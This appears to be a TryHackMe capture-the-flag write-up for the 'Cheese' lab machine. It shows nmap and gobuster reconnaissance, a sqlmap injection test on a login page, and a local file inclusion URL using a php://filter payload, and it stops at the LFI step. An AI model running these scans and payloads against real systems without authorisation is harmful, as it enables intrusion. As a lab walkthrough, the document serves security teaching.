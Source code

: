 # Cheese CTF — TryHackMe Writeup

**TL;DR:** LFI → RCE → User Shell → SSH Key → Sudo Systemd → SUID xxd → Root

## Target
- Machine: Cheese.thm
- Date: 2025-8-13
- Environment: TryHackMe / educational lab

## Steps:

1. Initial scan:

```bash
└─$ nmap -sV -sC -T4 -Pn -p22,80 cheese.thm

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: The Cheese Shop
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: ip-10-10-214-126.eu-west-1.compute.internal; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2. Directory discovery:

```bash
└─$ gobuster dir -u http://cheese.thm/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php

/images               (Status: 301) [Size: 309] [--> http://cheese.thm/images/]
/login.php            (Status: 200) [Size: 834]
/server-status        (Status: 403) [Size: 275]

```

3. Finding the Hidden Entry Point:

When I encountered the login page `login.php`, I used sqlmap to check for SQL Injection vulnerabilities:
```bash
└─$ sqlmap -u  http://cheese.thm/login.php --data "username=test&password=test" -X POST 

```
The tool detected a 302 Redirect to a hidden URL:
```bash

got a 302 redirect to 'http://cheese.thm/secret-script.php?file=supersecretadminpanel.html'. Do you want to follow? [Y/n] 

```
### LFI Vulnerability Discovery

Discovered the URL and find a meesage at
`http://cheese.thm/secret-script.php?file=php://filter/resource=supersecretmessageforadmin`
